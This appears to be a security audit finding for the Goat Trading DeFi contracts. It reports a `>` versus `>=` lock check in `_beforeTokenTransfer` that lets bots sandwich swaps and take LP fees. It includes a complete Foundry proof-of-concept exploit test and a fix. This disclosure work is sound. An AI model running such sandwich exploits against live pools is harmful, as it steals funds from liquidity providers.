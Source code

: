 Careful Cinnabar Kitten

high

# Incorrect check of locked liquidity on `GoatV1Pair::_beforeTokenTransfer` lets bots snipe LP fees

## Summary
A malicious user could sandwich swaps and steal LPs fees because of an incorrect check of locked liquidity on `GoatV1Pair::_beforeTokenTransfer`. The attacker can `addLiquidity`, earn fees, `removeLiquidity`, and withdraw fees earned within the same block. 

## Vulnerability Detail
On `GoatV1ERC20` (`GoatV1Pair`) when liquidity is minted, depending on the amount being minted, the liquidity is locked for a period of time.

https://github.com/sherlock-audit/2024-03-goat-trading/blob/beb09519ad0c0ec0fdf5b96060fe5e4aafd71cff/goat-trading/contracts/exchange/GoatV1ERC20.sol#L34-L43
```solidity
        uint32 lockUntil;
        if (_value > _totalSupply) {
            lockUntil = uint32(block.timestamp + _TWO_DAYS);
        } else {
            lockUntil = uint32(block.timestamp + ((_value * _TWO_DAYS) / _totalSupply));
        }

        if (lockUntil > _locked[_to]) {
            _locked[_to] = lockUntil;
        }
```

However, `lockUntil` can be `block.timestamp` if `((_value * _TWO_DAYS) / _totalSupply)) == 0` . This, because of an incorrect check on the `GoatV1Pair::_beforeTokenTransfer` function, lets a attacker sandwich swaps and make a profit out of it, stealing LPs profit.

The incorrect check is the following: 
https://github.com/sherlock-audit/2024-03-goat-trading/blob/beb09519ad0c0ec0fdf5b96060fe5e4aafd71cff/goat-trading/contracts/exchange/GoatV1Pair.sol#L917-L919
```solidity
        if (_locked[from] > timestamp) {
            revert GoatErrors.LiquidityLocked();
        }
```
Here, if `_locked[from] == timestamp`, the execution won't revert.

The attacker could `addLiquidity` calculating that the liquidity minted times `_TWO_DAYS` is less than `_totalSupply`, so the division truncates and rounds down to zero, and execute `addLiquidity` that way many times in a single transaction. This will let the attacker add a ton of liquidity without locking its LP tokens more than `block.timestamp`.

After the swap, the attacker earned fees unfairly, and can claim them and remove the liquidity that provided.

Add the following test to `test/foundry/periphery/GoatV1Router.t.sol` and run `forge test --mt testSnipingLpFeesOnAmm -vvv --via-ir`:

```solidity
function testSnipingLpFeesOnAmm() public {
        // Setting up the test
        _addLiquidityAndConvertToAmm();
        GoatV1Pair pair = GoatV1Pair(factory.getPool(address(token)));
        weth.transfer(swapper, 5e18);

        vm.startPrank(swapper);
        weth.approve(address(router), type(uint256).max);
        router.swapWethForExactTokens(5e18, 0, address(token), swapper, block.timestamp);
        vm.stopPrank();

        vm.warp(block.timestamp + 2 days);

        address sniperBot = makeAddr("sniper-bot");

        vm.startPrank(sniperBot);

        // Funding bot
        vm.deal(sniperBot, 200 ether);
        weth.deposit{value: 200 ether}();
        token.mint(sniperBot, 200 ether);

        weth.approve(address(router), type(uint256).max);
        token.approve(address(router), type(uint256).max);

        // Adding liquidity front-running swap
        // The bigger the swap, the more profitable

        uint256 balanceWethBefore = weth.balanceOf(sniperBot);
        uint256 balanceTokenBefore = token.balanceOf(sniperBot);

        uint256 liquidity = 0;
        {
            uint256 supply = pair.totalSupply();
            uint256 maxValue = (supply / 2 days) - 1;
            (uint256 wethReserve, uint256 tokenReserve) = pair.getReserves();

            uint256 wethToAdd = maxValue * wethReserve / supply;
            uint256 tokenToAdd = GoatLibrary.quote(wethToAdd, wethReserve, tokenReserve);

            GoatTypes.InitParams memory initParams = GoatTypes.InitParams(0, 0, 0, 0);
            for (uint256 i = 0; i < 100; ++i) {
                (,, uint256 liquidityAdded) = router.addLiquidity(
                    address(token), tokenToAdd, wethToAdd, 0, 0, sniperBot, block.timestamp, initParams
                );

                liquidity += liquidityAdded;
            }
        }
        vm.stopPrank();
  
        // Sandwiched swap
        vm.startPrank(swapper);
        token.approve(address(router), 5e18);
        router.swapExactTokensForWeth(
            5e18,
            0, // no slippage protection for now
            address(token),
            swapper,
            block.timestamp
        );
        vm.stopPrank();

        // Remove liquidity back-running swap
        vm.startPrank(sniperBot);
  
        pair.approve(address(router), liquidity);
        router.removeLiquidity(address(token), liquidity, 0, 0, sniperBot, block.timestamp);
        uint256 earned = pair.earned(sniperBot);
        pair.withdrawFees(sniperBot);
  
        vm.stopPrank();

        uint256 balanceWethAfter = weth.balanceOf(sniperBot);
        uint256 balanceTokenAfter = token.balanceOf(sniperBot);

        assert(earned > 0);
        /*
        The following two checks depend on the direction the sandwiched swap was made.
        Because of impermanent loss, the sniper bot will remove liquidity and have a different
        tokens proportion. If the bot swaps the excedent, it will recover its initial funds + profit.
        */
        // assert(balanceWethAfter > balanceWethBefore);
        assert(balanceTokenAfter > balanceTokenBefore);
    }
```
## Impact
An attacker can perform a sandwich attack on swaps to make an profit from the LPs fees. This effectively steals funds away from other legitimate LPs of the protocol.

## Code Snippet
https://github.com/sherlock-audit/2024-03-goat-trading/blob/beb09519ad0c0ec0fdf5b96060fe5e4aafd71cff/goat-trading/contracts/exchange/GoatV1Pair.sol#L886-L926
https://github.com/sherlock-audit/2024-03-goat-trading/blob/beb09519ad0c0ec0fdf5b96060fe5e4aafd71cff/goat-trading/contracts/exchange/GoatV1ERC20.sol#L33-L49

## Tool used

Manual Review

## Recommendation

Modify the check on `GoatV1Pair::_beforeTokenTransfer` so if tokens are locked for that timestamp, it will revert.
```diff
- if (_locked[from] > timestamp) {
+ if (_locked[from] >= timestamp) {
      revert GoatErrors.LiquidityLocked();
  }
```
Although this modification improves the security against this type of attack, depending on the chain the protocol will be deployed, it can be effective or not. There are two possible additional mitigations:

1) Do not allow multiple calls to `mint` on the same `block.timestamp`.

2) Consider adding a minimum amount of seconds as lock for pair tokens. To mitigate a possible DoS to LPs this can cause, consider adding checks on `GoatV1Router` on functions that add liquidity and on the `mint` function in `GoatV1Pair`, just allowing the sender to mint tokens for itself and not for others.